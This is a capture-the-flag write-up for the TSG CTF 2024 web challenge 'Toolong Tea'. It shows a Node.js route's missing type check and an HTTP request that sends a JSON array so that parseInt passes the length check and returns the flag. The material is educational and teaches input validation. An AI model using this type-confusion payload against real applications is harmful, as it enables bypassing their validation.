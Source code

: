 # Toolong Tea

<details><summary><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

- Solved by: @siunam
- 143 solves / 100 points
- Author: @fabon
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Recently it's getting colder in Tokyo which TSG is based in. Would you like to have a cup of hot oolong tea? It will warm up your body.

[http://34.84.32.212:4932](http://34.84.32.212:4932)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TSG-CTF-2024/images/Pasted%20image%2020241216111852.png)

## Enumeration

Index page:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TSG-CTF-2024/images/Pasted%20image%2020241214152321.png)

In here, we can submit a number. Let's try it!

![](https://github.com/siunam321/CTF-Writeups/blob/main/TSG-CTF-2024/images/Pasted%20image%2020241214152539.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TSG-CTF-2024/images/Pasted%20image%2020241214152703.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TSG-CTF-2024/images/Pasted%20image%2020241214152740.png)

When we clicked the "submit" button, it'll send a POST request to `/` with a JSON object:

```json
{
    "num":"123"
}
```

After that, the server respond "Please send 65536".

Let's try to submit number 65536!

```http
POST / HTTP/1.1
Host: 34.84.32.212:4932
Content-Type: application/json
Content-Length: 15

{"num":"65536"}
```

Response:

```http
HTTP/1.1 200 OK
[...]

Too long!
```

Hmm... "Too long!"?

To have a better understanding in this web application, we'll need to read its source code.

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/TSG-CTF-2024/Web/Toolong-Tea/toolong_tea.tar.gz):**
```shell
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/Toolong-Tea)-[2024.12.14|15:30:58(HKT)]
└> file toolong_tea.tar.gz  
toolong_tea.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 20480
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/Toolong-Tea)-[2024.12.14|15:30:59(HKT)]
└> tar xvzf toolong_tea.tar.gz 
toolong_tea/
toolong_tea/Dockerfile
toolong_tea/compose.yaml
toolong_tea/package-lock.json
toolong_tea/package.json
toolong_tea/public/
toolong_tea/public/index.html
toolong_tea/public/main.js
toolong_tea/server.js
```

After reading the source code a little bit, we can have the following findings:
1. This web application is written in JavaScript with framework [Hono](https://www.npmjs.com/package/hono)
2. The main logic of this web application is in `toolong_tea/server.js`

In `toolong_tea/server.js`, we can see that there's a POST route `/`:

```javascript
import { Hono } from "hono";

const flag = process.env.FLAG ?? "TSGCTF{DUMMY}";

const app = new Hono();
[...]
app.post("/", async (c) => {
    try {
        const { num } = await c.req.json();
        if (num.length === 3 && [...num].every((d) => /\d/.test(d))) {
            const i = parseInt(num, 10);
            if (i === 65536) {
                return c.text(`Congratulations! ${flag}`);
            }
            return c.text("Please send 65536");
        }
        if (num.length > 3) {
            return c.text("Too long!");
        }
        return c.text("Please send 3-digit integer");
    } catch {
        return c.text("Invalid JSON", 500);
    }
});
```

In this route, if our JSON object's attribute `num` length is 3 and its value is all digit, it'll use `parseInt` to parse our string to integer (base 10). **If the parsed integer is `65536`**, it'll return the flag in the JSON response.

With that said, we need to send number `65536` to get the flag.

Wait, how? Isn't this if statement will check our attribute `num`'s length is equal to `3`?

```javascript
const { num } = await c.req.json();
if (num.length === 3 && [...]) {
    [...]
}
```

How can we bypass this?

Well... Since **it doesn't check the attribute `num` to be type string**, we can send the `num` attribute with value of **3 array items** like this:

```json
{
    "num":[
        "123",
        "456",
        "789"
    ]
}
```

By doing so, the `num`'s length is `3`, which bypasses the length check.

Now, here's the question: **Can `parseInt` parse an array?**

Let's try to test that!

```shell
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/Toolong-Tea)-[2024.12.14|15:31:38(HKT)]
└> node                      
[...]
> parseInt(["123", "456", "789"], 10);
123
```

Oh! It can! And it parsed the first item in the array!

## Exploitation

Armed with the above information, we can send the following POST request to get the flag!

```http
POST / HTTP/1.1
Host: 34.84.32.212:4932
Content-Type: application/json
Content-Length: 73

{
    "num":[
        "65536",
        "456",
        "789"
    ]
}
```

Response:

```http
HTTP/1.1 200 OK
[...]

Congratulations! TSGCTF{A_holy_night_with_no_dawn_my_dear...}
```

- **Flag: `TSGCTF{A_holy_night_with_no_dawn_my_dear...}`**

## Conclusion

What we've learned:

1. Bypass validation via missing type checking